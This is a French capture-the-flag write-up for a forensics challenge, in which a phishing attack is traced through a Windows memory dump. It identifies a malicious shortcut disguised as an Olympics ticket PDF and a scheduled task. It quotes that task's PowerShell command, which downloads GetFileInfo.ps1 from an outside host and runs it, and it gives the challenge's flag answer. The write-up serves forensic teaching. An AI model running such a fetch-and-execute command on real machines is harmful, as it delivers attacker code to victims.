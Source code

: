 ## Description

### Enquête sur le phishing des JO : Retracer l'attaque Partie 1

![Illustration](../images/illu_Phishing.jpg)

Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite avoir. 

Vous avez pour mission de réaliser l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié. 

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ? 

Pour résoudre ce challenge, vous devez répondre aux questions suivantes : 

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créée ?

3 - Quel script est lancé par cette scheduled task ?

#### Format du flag

**SHLK{'nom-fichier'-'scheduled task-'script'}**

#### Exemple

1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

**SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}**


#### SHA256

dump.raw : 757D150394158D68F33D25A46EF45D6874FE046A40DA7E97C3C0D33DF21EB7E1

dump.zip : 3C6DA179B87FA2DC0ACB988466428679FD6AF0905F004A56E8A968A83009E16D

## Objectif de la création de ce challenge

Ce challenge a été créé pour la première édition du CTF Shutlock.

Il a été réalisé afin de permettre une introduction à l'analyse de timeline et de dump mémoire.

## Solve

### TL;DR

- Analyse du système de fichiers pour trouver le script malveillant
- Analyse des tasks créées

### Informations trouvées grâce à l'énoncé

- Mail de phishing

Fichiers donnés : 

- `dump.raw` : dump mémoire de l'ordinateur infecté (Windows 10)
- `ordi.png` : screenshot de l'ordinateur infecté

### Informations trouvées grâce à ordi.png

Information sur les processus en cours et malveillants 
- Notepad : instructions.txt
- Edge : Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf

Permets d'avoir une idée de l'heure à laquelle l'attaque a eu lieu.

### Etude

- Utilisation de l'outil [MemProcFS](https://github.com/ufrisk/MemProcFS)

```bash
MemProcFS.exe -forensic 1 -device dump.raw
```

- **Quel est le nom du fichier malveillant ?**

L'accès initial étant un mail de phishing, on regarde son système de fichiers pour voir s'il n'a pas téléchargé le fichier malveillant.

Visible dans `M:\forensic\ntfs\1\Users\clara\Downloads\`
On remarque qu'il a téléchargé *Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.zip*.

Ce zip extrait le fichier `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf` ayant pour type `raccourci`.

Première partie du flag : `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk`

- **Quel est le nom de la scheduled task créée ?**

On utilise le fichier visible dans `M:\forensic\csv\tasks.csv`. On va analyser dans timeline explorer (fichier .tle_sess)

On voit la première task `IGotYourFileInfo` ayant pour ligne de commande `Invoke-WebRequest` et pour paramètre `-Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1`

On vérifie dans `M:\forensic\csv\timeline_tasks.csv` que la task a été créée.

Deuxième partie du flag : `IGotYourFileInfo`

- **Quel script est lancé par cette scheduled task ?**

````powershell
IGotYourFileInfo - [Invoke-WebRequest :: -Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1] (Author)
````

Le script lancé est le paramètre de *-OutFile*

Troisième partie du flag : GetFilesInfo.ps1